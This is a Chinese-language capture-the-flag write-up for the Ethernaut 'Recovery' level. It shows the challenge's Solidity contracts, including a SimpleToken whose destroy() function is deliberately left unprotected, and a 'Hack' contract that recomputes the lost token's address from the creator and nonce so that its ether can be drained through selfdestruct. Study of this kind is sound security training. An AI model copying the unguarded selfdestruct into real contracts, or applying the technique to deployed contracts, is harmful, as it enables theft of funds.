 # Ethernaut 17-Recovery

## 本关目标

- 找到丢失的 SimpleToken 合约地址，并取走其中的余额

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  // 创建了一个SimpleToken但是没有保留它的地址，我们需要知道它的地址
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);

  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    // 销毁合约并将余额全部转给_to
    selfdestruct(_to);
  }
}
```

## 解决方案

1. 复原出 Recovery 合约中新建的 SimpleToken 实例的地址

- 合约地址是有固定生成公式的，地址和创建合约的账户地址以及 noce 有关

```solidity
function addressFrom(address _origin, uint _nonce) public pure returns (address) {
  bytes memory data;
  if (_nonce == 0x00)          data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x80));
  else if (_nonce <= 0x7f)     data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, uint8(_nonce));
  else if (_nonce <= 0xff)     data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _origin, bytes1(0x81), uint8(_nonce));
  else if (_nonce <= 0xffff)   data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _origin, bytes1(0x82), uint16(_nonce));
  else if (_nonce <= 0xffffff) data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _origin, bytes1(0x83), uint24(_nonce));
  else                         data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _origin, bytes1(0x84), uint32(_nonce));
  return address(uint160(uint256(keccak256(data))));
}
```

- 本关 nonce=0x01, \_origin 就是 Recovery 合约地址， 部署 Hack，然后传入 Recovery 实例地址获取 SimpleToken 实例地址

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack {

    function guessAddress(address sender) public pure returns(address){
        // address data = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x80))))));

        address data = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x01))))));
        return data;
    }
}
```

![guess-address](./picture/Recovery-guess-address.png)

- 检查猜测地址的余额，验证该地址的正确性  
  ![verify-address](./picture/guessAddressVerify.png)

2. 使用猜测的地址 At Address 部署 SimpleToken
3. 调用 destroy()传入自己账户的地址即可完成余额转移
